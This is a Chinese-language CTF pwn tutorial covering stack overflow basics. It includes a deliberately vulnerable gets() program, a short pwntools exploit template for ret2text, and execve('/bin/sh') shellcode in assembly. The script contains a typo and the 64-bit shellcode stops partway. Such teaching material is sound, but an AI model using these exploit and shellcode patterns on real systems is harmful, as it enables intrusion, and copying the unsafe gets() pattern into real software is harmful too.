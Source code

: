 # 前置知识

ELF文件结构：熟悉二进制文件结构，[参考](https://ctf-wiki.org/executable/elf/structure/basic-info/)

IDA的使用：进行反汇编逆向分析程序

python的pwntools库：熟悉python并能编写利用脚本

系统和编译提供保护：ASLR、PIE、NX、Canary、RELRO

## Pwn的主要漏洞

### 栈溢出

#### ret2text

原理：通过溢出，对返回地址进行劫持，来获取shell

关键函数gets,read以及读取对应的字节，是否超出定义变量的字节

例子：源代码的视角中溢出的样子

```c
#include<stdio.h>
int main(){
	char str[8];
  gets(str);	//由于gets函数缺陷，可以输入超出缓冲区的数据大小，进而覆盖掉返回地址
  return 0;
}
```

exp类似这样

```python
from pwn form *
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
payload = cyclic(0x8+0x8) + p64(0x12345678)  #返回地址
p.sendline(payload)
p.interactive()
```

#### ret2shellcode

原理：当没有开启NX保护时，栈是可以被执行的，利用栈溢出，来实现劫持返回地址，返回到准备好的shellcode来进行取shell

##### 手写shellcode

得根据实际情况去写shellcode

例子：

```
32位：
  xor eax,eax
  xor ebx,ebx
  xor edx,edx
  xor ecx,ecx
  push edx
  push 0x68732f2f
  push 0x6e69622f 
  mov ebx,esp
  mov al,0xB
  int 0x80
  
64位：
  xor rdx, rdx     
  xor rsi, rsi
  mov rbx, 0x68732f2f6e69622f  
```